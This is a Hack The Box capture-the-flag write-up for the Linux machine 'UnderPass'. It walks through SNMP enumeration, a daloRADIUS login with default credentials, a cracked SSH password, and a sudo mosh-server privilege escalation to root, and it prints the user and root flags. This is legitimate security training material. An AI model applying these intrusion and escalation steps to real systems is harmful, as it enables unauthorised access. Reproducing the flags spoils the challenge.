






# Hack The Box — UnderPass


---

# Machine Information

| Name      | Difficulty | Platform     | OS    |
| --------- | ---------- | ------------ | ----- |
| UnderPass | Easy       | Hack The Box | Linux |

---

# Attack Path

```
1. Nmap scan reveals SSH and HTTP services
2. Web server shows default Apache page
3. UDP enumeration discovers SNMP service
4. SNMP leaks information about daloRADIUS
5. Access to daloRADIUS panel with default credentials
6. Password hash extracted and cracked
7. SSH login as svcMosh
8. sudo privilege allows execution of mosh-server
9. Mosh session abused to obtain root shell
```

---

# Reconnaissance

Initial enumeration was performed with **Nmap**.

```
nmap -sC -sV -A 10.10.11.48
```



The scan revealed two open ports:

| Port | Service       |
| ---- | ------------- |
| 22   | SSH           |
| 80   | HTTP (Apache) |

---

# Web Enumeration

Accessing the web server revealed only the **default Apache page**.

Since nothing useful was found on the web server, further enumeration was required.

---

# SNMP Enumeration

A UDP scan revealed that **SNMP** was running on the server.

```
snmpwalk -v2c -c public 10.10.11.48
```

The output contained useful information, including references to **daloRADIUS**.

This indicated that a **RADIUS management interface** might be accessible on the web server. ([Medium][1])

---

# Accessing daloRADIUS

After identifying the service, the following path was discovered:

```
/daloradius/app/operators/login.php
```

The application allowed login with **default credentials**:

```
administrator : radius
```

---

# Credential Discovery

Inside the dashboard, a user account and password hash were discovered.



The hash was cracked, revealing credentials for the system user:



```
User: svcMosh
Password: underwaterfriends
```

---

# Initial Access

Using the discovered credentials, SSH access was obtained.

```
ssh svcMosh@10.10.11.48
```

The **user flag** was located in the home directory.

```
cat user.txt
```



---

# Privilege Escalation

Running `sudo -l` revealed that the user could execute the following command:

```
(ALL) NOPASSWD: /usr/bin/mosh-server
```



The `mosh-server` binary could be abused to spawn a root shell.

---

# Exploiting Mosh

The server was started using sudo:

```
sudo /usr/bin/mosh-server new
```

This produced a **MOSH key and port**, which allowed connecting to the session and obtaining a root shell. ([Threatninja.net][2])

---

# Root Access

After connecting to the Mosh session, root privileges were obtained.

```
cat /root/root.txt
```



---

# Flags

### User Flag

```
318e3379c1865605a000a4c6fa5ad3d4
```

### Root Flag

```
fa23ecddd243c7ba0f1794f408f61a0b
```

---

# Vulnerabilities Identified

### SNMP Information Disclosure

Public SNMP access allowed attackers to retrieve sensitive information about the system configuration.

Impact:

* disclosure of internal service details
* discovery of daloRADIUS deployment

---

### Default Credentials

The daloRADIUS management panel allowed login with default credentials.

Impact:

* unauthorized access to system configuration
* credential disclosure

---

### Privilege Escalation — mosh-server

The user `svcMosh` was allowed to execute `mosh-server` with sudo.

This allowed attackers to spawn a **root shell**.

---

# Tools Used

* Nmap
* SNMPWalk
* SSH
* Hash cracking tools
* Mosh

---

# Key Takeaways

This machine demonstrates several important penetration testing concepts:

* UDP enumeration can reveal hidden services
* SNMP often leaks sensitive system information
* Default credentials remain a common security issue
* Misconfigured sudo permissions can lead to privilege escalation

---

# Author

GitHub: https://github.com/ninjaa-exe
